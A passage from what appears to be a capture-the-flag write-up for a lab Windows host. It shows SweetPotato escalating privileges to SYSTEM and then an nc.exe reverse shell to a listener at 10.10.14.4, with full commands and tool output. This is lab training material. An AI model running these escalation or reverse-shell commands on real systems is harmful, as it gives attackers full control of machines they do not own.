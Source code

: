 For the test, I ran `whoami` command, and it worked!

```bash
C:\Users\Public\Documents>.\SweetPotato.exe -a "whoami"
.\SweetPotato.exe -a "whoami"
Modifying SweetPotato by Uknow to support webshell
Github: https://github.com/uknowsec/SweetPotato 
SweetPotato by @_EthicalChaos_
  Orignal RottenPotato code and exploit by @foxglovesec
  Weaponized JuciyPotato by @decoder_it and @Guitro along with BITS WinRM discovery
  PrintSpoofer discovery and original exploit by @itm4n
[+] Attempting NP impersonation using method PrintSpoofer to launch c:\Windows\System32\cmd.exe
[+] Triggering notification on evil PIPE \\Conceal/pipe/77ed420c-305f-4dff-8b25-ced459fb3148
[+] Server connected to our evil RPC pipe
[+] Duplicated impersonation token ready for process creation
[+] Intercepted and authenticated successfully, launching program
[+] CreatePipe success
[+] Command : "c:\Windows\System32\cmd.exe" /c whoami 
[+] process with pid: 2904 created.

=====================================

nt authority\system

[+] Process created, enjoy!
```

Then I opened a reverse shell using `nc.exe` and `SweetPotato.exe`.
(Need to setup a listener ahead)

```bash
C:\Users\Public\Documents>.\SweetPotato.exe -a "C:\Users\Public\Documents\nc.exe 10.10.14.4 9001 -e powershell.exe"
.\SweetPotato.exe -a "C:\Users\Public\Documents\nc.exe 10.10.14.4 9001 -e powershell.exe"
Modifying SweetPotato by Uknow to support webshell
Github: https://github.com/uknowsec/SweetPotato 
SweetPotato by @_EthicalChaos_
  Orignal RottenPotato code and exploit by @foxglovesec
  Weaponized JuciyPotato by @decoder_it and @Guitro along with BITS WinRM discovery
  PrintSpoofer discovery and original exploit by @itm4n
[+] Attempting NP impersonation using method PrintSpoofer to launch c:\Windows\System32\cmd.exe
[+] Triggering notification on evil PIPE \\Conceal/pipe/82a8415e-f74c-41eb-bbc8-3619b335f071
[+] Server connected to our evil RPC pipe
[+] Duplicated impersonation token ready for process creation
[+] Intercepted and authenticated successfully, launching program
[+] CreatePipe success
[+] Command : "c:\Windows\System32\cmd.exe" /c C:\Users\Public\Documents\nc.exe 10.10.14.4 9001 -e powershell.exe 
[+] process with pid: 4548 created.
=====================================
```

Then, soon the listener spawns a shell.
